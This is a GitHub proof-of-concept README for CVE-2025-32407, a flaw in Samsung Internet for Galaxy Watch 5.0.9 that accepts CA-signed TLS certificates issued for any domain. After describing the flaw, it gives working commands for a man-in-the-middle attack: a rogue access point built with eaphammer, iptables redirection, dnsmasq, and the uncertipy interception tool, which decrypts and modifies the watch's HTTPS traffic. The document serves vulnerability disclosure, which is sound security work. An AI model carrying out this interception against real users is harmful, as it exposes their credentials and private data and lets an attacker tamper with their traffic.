





# CVE-2025-32407

Proof of concept for CVE-2025-32407: a misconfiguration in the TLS certificate validation 
of the Samsung Galaxy Watch app "Samsung Internet for Galaxy Watch" version 5.0.9.

# Description

The Galaxy Watch app "Samsung Internet for Galaxy Watch" version 5.0.9, available up until Samsung Galaxy Watch 3, does not properly validate TLS certificates, allowing for an attacker to impersonate any and all websites visited by the user. This is a critical misconfiguration in the way the browser validates the identity of the server. It negates the use of HTTPS as a secure channel, allowing for Man-in-the-Middle attacks, stealing sensitive information or modifying incoming and outgoing traffic.

In this particular case, the browser doesn't validate that the certificate's domain matches the domain name of the website. This means that it will accept any TLS certificate, emitted for any arbitrary domain, as long as its signed by a trusted Certificate Authority. Then, an attacker could obtain a free certificate for a domain it controls, and with it intercept every TLS connection generated from the app. 

# PoC

This was tested using a Samsung Galaxy Watch 3, and the latest version of "Samsung Internet for Galaxy Watch" (5.0.9). Please note that this device is currently unsupported.



To assist with exploiting, I developed a tool that dynamically intercepts TLS communications and generates TLS certificates controlled by me, which allows me to decrypt and manipulate the incoming and outgoing data: https://github.com/diegovargasj/uncertipy. A valid TLS certificate is needed, with its key, signed by a real CA. This can be done easily and free with Let's Encrypt API and a domain. They will be stored at /path/to/cert.pem and /path/to/key.pem respectively. 

There are several ways to intercept the Watch's communication, such as manipulating DNS responses or connecting it to a WiFi Access Point created for this purpose. We will do the latter, using a computer with 2 network interfaces: wlan0 to access the internet, and wlan1 to deploy the WiFi Access Point. 

I will be using eaphammer (https://github.com/s0lst1c3/eaphammer) to deploy the WiFi AP, but you can use whichever you like. 

```
sudo ./eaphammer --auth wpa-psk --wpa-passphrase MyPassword --interface wlan1 --essid WLAB
```

Now, assign an IP address to the interface:

```
sudo ip addr add 10.0.0.1/24 dev wlan1
```

Redirect the traffic to local port 9900:
```
sudo iptables -A INPUT -i wlan1 -j ACCEPT
sudo iptables -t nat -A PREROUTING -i wlan1 -p tcp -m tcp -j REDIRECT --to-ports 9900
sudo iptables -t nat -A POSTROUTING -o wlan0 -j MASQUERADE
```

And enable DHCP and DNS:
```
sudo dnsmasq --no-daemon --interface wlan1 --dhcp-range=10.0.0.100,10.0.0.200 --log-dhcp --log-queries --bind-interfaces -C /dev/null
```

Finally, launch uncertipy to intercept TLS traffic on port 9900. This traffic will be redirected to an HTTP proxy on port 8080, for logging:

```
python3 uncertipy.py -a 0.0.0.0 -p 9900 -c /path/to/cert.pem  -k /path/to/key.pem  -m replaced_key -u 127.0.0.1:8080
```

Now we connect the Watch to the Wifi AP, open the app and navigate to any arbitrary HTTPS website.





The uncertipy tool will notify of the TLS interceptions.



The HTTP proxy will start intercepting requests, which may contain sensitive information. Additionally, we can take advantage of the proxy's features to modify incoming or outgoing requests. 



The app should work normally, displaying the website's content.


